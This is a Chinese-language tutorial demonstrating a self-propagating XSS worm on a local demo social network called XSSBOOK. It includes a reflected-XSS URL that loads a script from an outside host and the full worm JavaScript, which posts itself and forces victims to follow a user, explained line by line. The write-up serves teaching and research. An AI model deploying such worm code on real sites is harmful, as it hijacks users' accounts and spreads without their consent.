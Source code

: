我们以一个数据集合开始产生一个XSSBOOK的数据库。

![enter description here][1]

和传统社交网络一样，只有极少用户能够拥有大量的听众。为了方便演示，这里我们产生了一百个用户，他们都有同样的密码12345678。

其中，“Brute”是最后一个用户。

![enter description here][2]

XSSBOOK这个应用看起来是这个样子的。

![enter description here][3]

首页显示了收听的用户所发表的信息。在上面的截图当中，Brute收听了Angela并且看到Angela最近的推文。他的资料页展示了他的听众数量（目前是0）和自我介绍。Brute还没有发表过推文所以没有显示。

蠕虫传播的开始，第一个受到感染的是George。他因为访问了一个通过搜索功能存在的反射型xss漏洞构造的蠕虫而受到感染：

```
http://localhost/xssbook/search.php?user=%3Cscript%20src=//brutelogic.com.br/tmp/xssbook.js%3E%3C/script%3E
```

引入的js的内容为

```
x = new XMLHttpRequest();
x.open('POST', 'home.php', true);
x.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
x.send('post=</textarea><br><a href="' + document.URL + '">Check this!</a>');

fr = document.createElement('iframe');
fr.setAttribute('name', 'myFrame');
fr.setAttribute('style', 'display:none');
document.body.appendChild(fr);

fo = document.createElement('form');
fo.setAttribute('method', 'post');
fo.setAttribute('action', 'profile.php?id=100');
fo.setAttribute('target', 'myFrame');

i = document.createElement('input');
i.setAttribute('type', 'hidden');
i.setAttribute('name', 'follow');
fo.appendChild(i);

fo.elements[0].value='follow';

document.body.appendChild(fo);

fo.submit();
```
解析一下这段js

```
x = new XMLHttpRequest();
x.open('POST', 'home.php', true);
x.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
x.send('post=</textarea><br><a href="' + document.URL + '">Check this!</a>');
```

开头四行是蠕虫的自我传播部分，它在用户不知情的情况下发送了一条推文，推文的内容首先闭合了
textarea标签，插入了一个换行符，再插入了一个指向当前页面（即蠕虫传播）的链接。

```
fr = document.createElement(‘iframe’);
fr.setAttribute(‘name’, ‘myFrame’);
fr.setAttribute(‘style’, ‘display:none’);
document.body.appendChild(fr);

```
这四行我们创建了个看不见的iframe，这个iframe将会成为接下来蠕虫要创建的form的target（这样做的目的见上文）。

```
fo = document.createElement('form');
fo.setAttribute('method', 'post');
fo.setAttribute('action', 'profile.php?id=100');
fo.setAttribute('target', 'myFrame');
```

这四行代码创建了一个form，target是之前的iframe，目标页面是100号用户的个人资料，也就是brute用户的个人资料页面。

```
i = document.createElement(‘input’);
i.setAttribute(‘type’, ‘hidden’);
i.setAttribute(‘name’, ‘follow’);
fo.appendChild(i);
```

这里创建了个不可见的input块，目的在于post一个follow的值，

```
fo.elements[0].value='follow';
```

而follow的值也被设定为follow

```
document.body.appendChild(fo);
```
form被加入到页面中

```
fo.submit();
```
form最终被提交。

如我们所见，这段蠕虫代码将会复制自身，传播自身，并且关注用户“Brute”

所以我们现在有一个100人规模的社交网络，连接数为463。我们现在要看看蠕虫在用户间的传播。为了达到这个目的我们将使用Firefox扩展Selenium IDE。

![enter description here][4]

我们使用该扩展模拟用户的行为，通过给定的csv表格中的帐号信息陆续登录账户，点击timeline上的链接。接下来我们就可看到该蠕虫的快速传播。

演示视频（须翻墙）

%[enter description here][5]


  [1]: images/xssbook-1.png "xssbook-1.png"
  [2]: images/xssbook-3.png "xssbook-3.png"
  [3]: images/xssbook-screens.png "xssbook-screens.png"
  [4]: images/xssbook-2.png "xssbook-2.png"
  [5]: https://www.youtube.com/embed/i8mTYicEQrI?version=3&rel=1&fs=1&autohide=2&showsearch=0&showinfo=1&iv_load_policy=1&wmode=transparent
